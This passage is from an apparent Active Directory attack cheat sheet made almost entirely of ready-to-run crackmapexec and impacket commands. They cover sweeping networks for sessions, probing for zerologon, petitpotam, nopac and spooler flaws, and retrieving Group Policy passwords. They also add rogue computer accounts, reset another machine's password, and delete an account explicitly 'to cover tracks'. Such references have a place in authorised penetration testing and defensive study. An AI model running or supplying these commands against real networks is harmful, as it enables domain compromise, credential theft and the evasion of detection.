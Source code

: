 #### Sweep the CIDR for Sessions
```bash
crackmapexec smb $cidr -d $fqdn -u "$user" -p $password  --sessions
```

#### local groups
```bash
crackmapexec smb $cidr -d $fqdn -u "$user" -p $password --local-groups
```

#### Search for the easy buttons
```bash
crackmapexec smb $cidr -d $fqdn -u "$user" -p $password -M zerologon
crackmapexec smb $cidr -d $fqdn -u "$user" -p $password -M petitpotam
crackmapexec smb $cidr -d $fqdn -u "$user" -p $password -M nopac
crackmapexec smb $cidr -d $fqdn -u "$user" -p $password -M spooler
crackmapexec smb $cidr -d $fqdn -u "$user" -p $password -M webdav
crackmapexec ldap $ip -d $fqdn -u "$user" -p $password -M MAQ
impacket-Get-GPPPassword -no-pass $dc
impacket-Get-GPPPassword  $fqdn/$user:$password@$dc
```

#### RPC Map and Dump
```bash
impacket-rpcmap "ncacn_ip_tcp:$ip"
impacket-rpcdump $fqdn/$user:$password@$ip
```

#### Check our RDP access
```bash
impacket-rdp_check $fqdn/$user:$password@$ip 
```

#### Add Computer
```bash
impacket-addcomputer -computer-name 'JUSTAPRINTER$' -computer-pass 'PCLoadLetter' -dc-host $ip $fqdn/$user:$password
```

#### Change password of Computer we find
```bash
impacket-addcomputer -computer-name 'WS1$' -computer-pass 'PCLoadLetter' -dc-host $ip -no-add $fqdn/$user:$password
```

#### Delete Machine to cover tracks
```bash
impacket-addcomputer -computer-name 'JUSTAPRINTER$' -computer-pass 'PCLoadLetter' -dc-host $ip -delete $fqdn/$user:$password
```

## Phase 3: Roots and Escalation

## 3a. Lateral Spread and Domain Escalation
Handy Reference for Anything Not Covered: https://tools.thehacker.recipes/impacket/examples
